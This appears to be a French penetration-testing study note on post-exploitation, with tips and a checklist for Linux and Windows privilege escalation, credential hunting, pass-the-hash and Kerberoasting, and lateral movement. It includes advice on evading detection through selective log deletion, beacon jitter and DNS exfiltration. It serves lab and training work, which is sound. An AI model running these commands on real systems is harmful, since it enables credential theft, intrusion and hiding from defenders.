## 28. Tips & Pièges

> [!tip] **linpeas/winpeas : les couleurs racontent**
> - **Rouge** = détails intéressants (SUID, fichiers monde-lisible, crontabs...)
> - **Jaune** = à vérifier
> - **Cyan/Blanc** = "base"
> Relance toujours avec `-a` (toutes les checks) et garde la sortie (`tee`) pour le rapport.

> [!tip] **Sudo : penser aux fichiers `sudoers.d`**
> ```bash
> # Un droit sudo peut être caché là :
> sudo -l            # l'affichage officiel
> cat /etc/sudoers.d/* 2>/dev/null
> grep -r "" /etc/sudoers.d/
> # Piège classique : un "root" via NOPASSWD mais avec un script modifiable.
> ```

> [!tip] **Chercher les données de backup AVANT les exploits kernel**
> Les exploits kernel (DirtyCow, overlayfs...) sont **risqués** (crash possible) et souvent patchés.
> Ordre de priorité :
> 1. Misconfigs (sudo, SUID, cron, docker, NFS)
> 2. Secrets trouvables (bash_history, configs, keys, .env)
> 3. Exploits kernel **en dernier** (avec `checksec`/version précise)
> ```bash
> # Vérifier si le kernel est vulnérable à quelque chose de CONNU
> searchsploit linux kernel 5.4.0
> linux-exploit-suggester.sh
> ```

> [!tip] **Windows : les creds traînent partout**
> ```powershell
> # IIS / web configs, deploys, scripts de sauvegarde
> type C:\inetpub\wwwroot\web.config | findstr /i "password"
> # Credentials stockés (Windows Credential Manager)
> cmdkey /list
> # Fichiers RDP récents
> type %APPDATA%\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> # Groupes de tokens locaux (admin local sur d'autres machines ?)
> net localgroup Administrators
> ```

> [!tip] **DLL Hijack : procmon en premier**
> Pour trouver le "quand" et le "où" : démarre le service avec **Process Monitor**
> (filtre `Process Name is <service>.exe`, puis `Result is NAME NOT FOUND`).
> Tu vois exactement **quelle DLL** il cherche et **où** → tu la mets là.

> [!warning] **Piège n°1 : les exploits qui font tomber la VM**
> - Un exploit kernel = souvent **crash** avant de marcher.
> - Toujours **snapshot** avant, ou accepter de re-lancer.
> - Sur les Potatoes : certaines versions plantent les services (spoolsv). Tester proprement.

> [!warning] **Piège n°2 : nettoyer = déclencher l'alerte**
> `wevtutil cl Security` = signal d'alarme immédiat pour un SOC.
> Préfère **supprimer sélectivement** les événements qui te concernent (ou simplement ne pas
> laisser de traces évidentes : pas de fichiers nommés `shell`, pas de payloads en /tmp en clair).

> [!warning] **Piège n°3 : oublier les services locaux**
> Un service sur `127.0.0.1` (bdd, dashboards, API interne) est une **porte d'entrée pour la privesc**
> (et une porte "oubliée" par les défenses). Toujours `ss -tlnp` / `netstat -ano`.

> [!tip] **Les creds sont la monnaie du lateral movement**
> Avant de chercher un exploit, **rejoue les creds** : le même mot de passe admin local est réutilisé
> partout. `crackmapexec smb 10.10.10.0/24 -u admin -p 'Pass' --local-auth` coûte moins cher
> et fait moins de bruit qu'un exploit.

> [!tip] **Pivoting : tester un port, pas tout le réseau**
> Pour vérifier un tunnel : `nc -vz` ou `curl`. Pas de `nmap` complet à travers un SOCKS
> (lent et bruyant). Préférer les connexions directes (port forward).

> [!tip] **Process injection : penser aux processus légitimes**
> Injecter dans un process system (svchost) est discret mais peut **déstabiliser** la machine.
> Préférer un processus jetable qu'on contrôle, puis migrer une fois stable.

> [!tip] **Documenter au fil de l'eau**
> Le rapport se rédige PENDANT l'engagement : commandes, screenshots, hashs, fichiers trouvés.
> Rien de pire qu'un rapport à écrire de mémoire.

> [!tip] **Le sleep & jitter du beacon**
> Un beacon qui répond instantanément est un signal d'EDR. Fixer `sleep` (10-30 s) et `jitter`
> (20-30 %) pour un trafic plus naturel. En lab, le sleep court est acceptable.

> [!warning] **Piège n°4 : oublier les machines du même segment**
> Le flag root/SYSTEM de la machine initiale n'est pas la fin : regarder le **réseau**, les
> **partages**, les **relations AD** avant de conclure.

> [!success] **Méthode privesc : avant d'installer quoique ce soit**
> 1. `linpeas`/`winpeas` (colonne rouge)
> 2. Vérifier les **creds qui trainent** (histoire, configs, backups)
> 3. Services **internes** (localhost)
> 4. SUID/sudo/cron/docker (Linux) / services+ACL+Potato (Windows)
> 5. Exploits kernel en dernier recours
---
## 29. Méthode express

### 29.1 La checklist de post-exploitation

```bash
# ─────────── LINUX ───────────
id; whoami; uname -a; cat /etc/os-release
sudo -l; cat /etc/sudoers.d/* 2>/dev/null
find / -perm -4000 -type f 2>/dev/null          # SUID
getcap -r / 2>/dev/null                          # capabilities
cat /etc/crontab; ls -la /etc/cron.d/ 2>/dev/null
ss -tlnp                                          # services internes
cat /home/*/.bash_history 2>/dev/null
find / -name "id_rsa" -o -name "*.pem" 2>/dev/null
grep -rniE "password|secret|token" /var/www /opt /etc 2>/dev/null | grep -v Binary
ls -la /.dockerenv 2>/dev/null && echo CONTENEUR
```

```powershell
# ─────────── WINDOWS ───────────
whoami /priv; whoami /groups; systeminfo
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
wmic service get name,displayname,pathname,startmode | findstr /i auto
icacls C:\Windows\Tasks C:\ProgramData 2>&1 | Select-String -Pattern "BUILTIN|Users"
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
cmdkey /list; net localgroup Administrators
```

```bash
# ─────────── LATERAL MOVEMENT / AD ───────────
crackmapexec smb <cidr> -u <user> -H <hash> --local-auth
impacket-secretsdump 'DOMAIN/user:PASS@<ip>' -just-dc-user krbtgt
impacket-GetUserSPNs DOMAIN/user:PASS -request
bloodhound-python -d DOMAIN -u user -p PASS -c All -ns <dc-ip>
```

```text
# ─────────── ORDRE GLOBAL ───────────
1. Stabiliser le shell (TTY / session stable)
2. Énumérer (automatique + manuel) et noter TOUT
3. Privesc → root/SYSTEM (misconfigs d'abord, kernel en dernier)
4. Dumper les creds (mimikatz / secretsdump / historique)
5. Se déplacer (PtH, Kerberoast, WMI/WinRM...) — discrètement
6. Persister UNIQUEMENT si l'engagement le demande
7. Exfiltrer ce qui compte (base64/DNS si besoin)
8. Nettoyer ses traces (sans déclencher d'alerte)
9. Rédiger le rapport avec preuves et recommandations
```
---

> [!success] **Ordre d'idée post-exploitation**
> 1. Évaluer la machine (linpeas/winpeas)
> 2. Privesc → **root/SYSTEM**
> 3. Dump des creds (hashdump, mimikatz, secrets)
> 4. Pivoter / lateral movement
> 5. Persister (si nécessaire dans l'engagement)
> 6. Documenter TOUT pour le rapport

> [!warning] **Rappel** : lab / THM / HTB uniquement.

Suite logique : [[08 - Password Cracking| Password Cracking]]
